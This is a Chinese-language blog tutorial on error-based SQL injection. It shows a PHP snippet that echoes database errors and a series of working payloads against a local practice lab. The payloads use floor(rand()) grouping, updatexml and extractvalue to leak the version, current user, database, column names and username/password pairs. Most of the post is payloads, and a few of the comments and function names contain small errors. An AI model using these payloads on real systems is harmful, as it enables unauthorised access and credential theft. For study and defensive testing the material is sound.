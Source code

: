 ```yaml
---
layout: post
title: 1.2.2-SQL注入-SQL注入语法类型-报错注入
category: 
  - web安全
tags: 
  - sql注入
abbrlink: 4239639054
date: 2018-06-16 00:00:00
description: more
---
```


## 报错注入

### 01 报错注入原理

构造payload让信息通过错误提示回显出来  
应用场景：  
查询不回显内容，会打印错误信息  
Update、insert等语句，会打印错误信息  

	if($row)
	{
		echo 'Your Login name:'.$row['username'];
	}
	else
	{
		print_r(mysql_error());
	}

### 02 报错注入方法

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/04/01.png)
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/04/02.png)
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/04/03.png)

	select count(*) from information_schema.tables group by concat((select version()),floor(rand(0)*2));

	http://127.0.0.1:90/Less-1/?id=1' and (select count(*) from information_schema.tables group by concat((select version()),floor(rand(0)*2)))--+

	http://127.0.0.1:90/Less-1/?id=1' and (select count(*) from information_schema.tables group by concat((select user()),0x7e,floor(rand(0)*2)))--+

	http://127.0.0.1:90/Less-1/?id=1' and (select count(*) from information_schema.tables group by concat((select database() limit 0,1),0x7e,floor(rand(0)*2)))--+ // 表名

	http://127.0.0.1:90/Less-1/?id=1' and (select count(*) from information_schema.tables group by concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 3,1),0x7e,floor(rand(0)*2)))--+ // 列名

	http://127.0.0.1:90/Less-1/?id=1' and (select count(*) from information_schema.tables group by concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 3,1),0x7e,floor(rand(0)*2)))--+ // 列名

	http://127.0.0.1:90/Less-1/?id=1' and (select count(*) from information_schema.tables group by concat(0x7e,(select concat(username,0x7e,password) from users limit 0,1),0x7e,floor(rand(0)*2)))--+ // 数据

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/04/04.png)
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/04/05.png)

	// 特殊符号导致方法报错，报错可以输出错误信息
	select ectractvalue(1,concat(0x7e,(select user()),0x7e));
	select updatexml(1,concat(0x7e,(select user()),0x7e),1);  

	报错注入只有32位长 用 substr截取字符串substr('ab',1,2) // 从第一位截取两个
	http://127.0.0.1:90/Less-1/?id=1' and updatexml(1,concat(0x7e,(select substr(concat(password),1,2) from users limit 0,1),0x7e),1) --+








